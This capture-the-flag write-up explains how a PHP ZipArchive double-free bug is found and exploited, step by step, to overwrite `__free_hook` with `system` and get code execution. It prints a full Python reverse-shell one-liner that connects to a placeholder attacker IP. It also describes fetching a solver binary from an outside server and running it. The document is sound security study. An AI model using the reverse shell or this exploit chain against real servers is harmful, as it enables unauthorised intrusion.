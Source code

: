 ## MoP - pwn problem - 224 points (17 solves)

### Description

We are given a PHP interpreter, along with the ability to run arbitrary PHP by sending a POST with a parameter `rce` which would be `eval`d. All interesting (aka useful) functions are disabled (eg: `shell_exec`, `popen`, etc.) using a properly blacklisted `disable_functions` in `disable.ini`. We _are_ given a `Dockerfile` to run a copy of the remote service, so that is nice!

There is a `flag` file, as well as a `readflag` file, which means we need to go from PHP-RCE to actual machine-code-RCE, and then run `/readflag`.

### The bug

Strangely, they haven't given a diff of the php source, so we are first not sure if it is a 0-day or a 1-day that we need, or whether there is a bug introduced in the source by the organizers.

Official php source can be [found](https://github.com/php/php-src/) so we try to diff against `master` but that doesn't help, since too many files have changed. Looking at `NEWS`, we know that it is a relatively recent version of PHP. Lots of files are the same though, so we assume that is just a recent version with some changes made to it. To find this, we can find the hashes of the files as git objects and then crawl through the repo to find the correct commit hash. Thankfully someone has written a nice tool to do this -- [gitxref](https://github.com/ali1234/gitxref).

With this, we find that the version they've built off of is `php-7.0.13RC1-31488-g37a8408e83` (git commit `37a8408e83`). There seem to be 4 files that are changed / added:
```
HEAD detached at 37a8408e83
Changes not staged for commit:
    modified:   ext/zip/php_zip.c
    modified:   main/php_version.h
Untracked files:
    ext/standard/tttt.py
    sapi/.DS_Store
```

Diff:
```
--- a/ext/zip/php_zip.c
+++ b/ext/zip/php_zip.c
@@ -1380,7 +1380,6 @@ static ZIPARCHIVE_METHOD(open)
        }
        if (ze_obj->filename) {
                efree(ze_obj->filename);
-               ze_obj->filename = NULL;
        }

        intern = zip_open(resolved_path, flags, &err);
diff --git a/main/php_version.h b/main/php_version.h
index 24765617cb..66c0402e74 100644
--- a/main/php_version.h
+++ b/main/php_version.h
...
-#define PHP_VERSION "8.0.0-dev"
+#define PHP_VERSION "114514-realworld"
```

No idea what the `114514` in the version means. The DS_store is just a mac thing, but the `tttt.py` seems to be a remnant from a different CTF challenge?! (https://www.tuicool.com/articles/RNBJ7fE -- pythonginx). No idea why that file is there.

Anyways, we now know that the bug is a missing `ze_obj->filename = NULL`, which means that we either have UAF or double-free.

### Analysis

Now we know that it doesn't set `filename` to `NULL` for the freed filename pointer in `ZipArchive` object. This leads to multiple frees as in ZipArchive `open` function.

Reading the source, we realize that we can trigger this if there is a `filename` pointer already set, in which case we can repeatedly free it, as long as we cause the write to `filename` (happens after this) to fail. This can be done by causing the opening to fail (example using `ZipArchive::EXCL`).

We will use this ability to perform multiple frees to get code execution.

BTW, this exploit requires understanding and exploiting PHP's custom memory allocator -- the zend allocator.

### Exploit

 1. Create multiple ZipArchive objects which will be used later in the exploit  - we create 3 (for leaking and writing)
 2. Make a new ZipArchive (say `A`), add file and close it
 3. Repeat step2 - say ZipArchive `B`
 4. Open `B` and `A` again
 5. Call `open` on ZipArchive `A` again trying to open the same opened file in EXCLUSIVE mode (using `ZipArchive::EXCL`, this causes `zip_open` to fail) -> `ze_obj->filename` gets freed here followed by freeing of resolved path
 6. Repeat step 5. In open, `resolved_path` points to the same address pointed by `ze_obj->filename`. However since `ze_obj->filename` isn't NULL, we will free it (first free), but as `zip_open` with EXCLUSIVE flag will fail, we will also free `resolved_path` leading to second free of the `ze_obj->filename`. At this point, zend allocator will have first free chunk (of size freed earlier) pointing to the address pointed `ze_obj->filename`, and the next pointer of that freed chunk points to itself.
 7. Close ZipArchive `B` and reopen it again (resolved_path now points to `ze_obj->filename` of the ZipArchive `A`).
 8. However since we overwrite the memory with our address, we repeat Step 5. (open `A` in EXCLUSIVE mode again to free the filename pointer)
 9. We get zend heap memory leak by printing filename of ZipArchive `B` - leak is the address pointed by filename pointer (due to double free) which is usually at constant offset from the start of `zend_mm_heap`
 10. Allocate another chunk of similar size to overwrite the next pointer to the double free'd object - we overwrite and set next pointer value to the `filename` member (offset 0x18 from start of struct) in ZipArchive object of `B` (again at constant offset) -- we use `addfromstring` on the clean ZipArchive objects made in Step 1.
 11. Allocate again to overwrite the `filename` pointer to point to `prop_handler` (offset of 0x10 from struct start)
 12. Allocate again to restore the next pointer of `ze_obj->filename` to again point to itself.
 13. Get filename again, to leak libphp address.
 14. Allocate to restore the heap (so that we can keep using with crashing).
 15. Repeat step 2-13, however this time for step 10, we give address in libphp which has libc pointer to leak libc.
 16. Allocate to overwrite next free chunk pointer to `__free_hook`. (yes, this is libc's free hook ; standard libc free does happen even in zend allocator)
 17. Allocate to overwrite `__free_hook` with `system`.
 18. Call open on one of the ZipArchive made in step 1 with name as the command to send as argument to system.
 19. Get remote shell.

Since we are getting this from the POST to the website, we decide to get the remote shell as a connect-back reverse shell. We do this by running a `python3` command that connects to us.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<<<IPADDRESSTOCONNECT>>>>", 9999));f=os.dup2;f(s.fileno(),0);f(s.fileno(),1);f(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

The entire exploit code for this is in [x.php](./x.php). Some of the offsets depended on a bunch of factors like how you were running the code (for example, `php x.php`, or via `php -a`, or via `eval` by sending it via the POST to apache -- this runs PHP as a library, rather than a process). To combat this, we wrote a jank brute force script for the offsets, and ran the bruteforcer locally for a few minutes against the local version of the docker container that the organizers had helpfully provided. This helped a _lot_ in debugging, and also getting the offsets right.

Unfortunately, we are not yet done. We need one more step to get the flag.

### Readflag Troubles

Running `/readflag`, we get a challenge-response style program where we need to prove we can write to it, and then it will give the flag:

```
# /readflag
Solve the easy challenge first
(((((570895)+(-670556))+(871129))-(-626997))-(746247))
input your answer: Alarm clock
```

Unfortunately, notice the `Alarm clock` at the end? That is a `SIGALRM` event. Analyzing the binary, we see that it sets up the challenge, and places a 1 millisecond alarm on itself, which causes it to die immediately.

Trying to run this via a python script that can read the challenge, compute the answer and reply back didn't work fast enough. So we wrote a solver in C that would do it for us. Unfortunately, even that wasn't fast enough, due to buffering issues, so we then converted it into a solver written in C using only pure syscalls for IO (no `FILE*` etc), and that worked fast enough. See the source for that in [solve_readflag.c](./solve_readflag.c). We simply hosted this compiled binary on a server of ours, downloaded it to `/tmp` and ran it to get the flag.


### Flag

`rwctf{+++just_a_check_in_flag_have_a_good_time+++:)}`

